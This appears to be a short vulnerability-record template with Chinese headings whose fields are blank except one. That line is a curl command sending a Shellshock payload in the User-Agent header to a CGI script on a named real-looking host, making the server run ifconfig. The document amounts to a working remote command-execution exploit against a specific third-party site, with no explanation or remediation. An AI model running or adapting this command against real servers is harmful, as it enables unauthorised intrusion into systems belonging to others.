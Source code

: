 ##cve编号：
##漏洞名称：
##漏洞类型：
##影响版本：
##利用脚本：
##漏洞细节：
curl -A "() { foo;};echo;/sbin/ifconfig" http://rewu.kuwo.cn/cgi-bin/test-cgi
##reference：
